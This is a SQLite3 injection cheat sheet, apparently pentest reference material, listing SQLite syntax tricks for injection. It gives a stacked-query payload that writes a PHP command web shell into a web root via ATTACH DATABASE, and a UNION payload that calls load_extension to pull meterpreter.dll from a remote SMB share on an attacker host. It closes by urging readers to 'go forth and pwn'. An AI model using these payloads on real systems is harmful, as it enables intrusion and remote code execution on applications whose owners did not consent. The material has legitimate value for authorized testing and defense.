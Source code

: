 # SQLite3 Injection Cheat Sheet

### &#x20;0x01 **Cheat Sheet**

|                                           |                                                                                |
| ----------------------------------------- | ------------------------------------------------------------------------------ |
| **Comments**                              | **--**                                                                         |
|  **IF Statements**                        |  **CASE**                                                                      |
|  **Concatenation**                        |  **\|\|**                                                                      |
|  **Substring**                            |  **substr(x,y,z)**                                                             |
|  **Length**                               |  **length(stuff)**                                                             |
|  **Generate single quote**                |  **select substr(quote(hex(0)),1,1);**                                         |
|  **Generate double quote**                |  **select cast(X'22' as text);**                                               |
|  **Generate double quote (method 2)**     |  **.. VALUES (“\<?xml version=“\|\|””””\|\|1\|\|**                             |
|  **Space-saving double quote generation** |  **select replace("\<?xml version=$1.0$>","$",(select cast(X'22' as text)));** |

### &#x20;**0x02 Getting Shell Trick 1 - ATTACH DATABASE**

requires stacked queries

```sql
?id=bob’; ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;--
```

### 0x03 **Getting Shell Trick 2 - SELECT load\_extension**

\
Takes two arguments:

* A library (.dll for Windows, .so for NIX)
* An entry point (SQLITE\_EXTENSION\_INIT1 by default)

This is great because&#x20;

1. This technique doesn't require stacked queries
2. The obvious - you can load a DLL right off the bat (meterpreter.dll? :)

\
Unfortunately, this component of SQLite is disabled in the libraries by default. SQLite devs saw the exploitability of this and turned it off. However, some custom libraries have it enabled - for example, one of the more popular Windows ODBC drivers. To make this even better, this particular injection works with UNC paths - so you can remotely load a nasty library over SMB (provided the target server can speak SMB to the Internets). Example:

```sql
?name=123 UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

### **Other neat bits**

\
If you have direct DB access, you can use **PRAGMA** commands to find out interesting information:

* **PRAGMA database\_list;** -- Shows info on the attached databases, including location on the FS. e.g. **0|main|/home/vt/haxing/sqlite/how.db**
* **PRAGMA temp\_store\_directory = '/filepath';** -- Supposedly sets directory for temp files, but deprecated. This would’ve been pretty sweet with the recent Android journal file permissions bug.

\
**Conclusion / Closing Remarks**\
SQLite is used in all sorts of crazy places, including Airbus, Adobe, Solaris, browsers, extensively on mobile platforms, etc. There is a lot of potential for further research in these areas (especially mobile) so go forth and pwn!
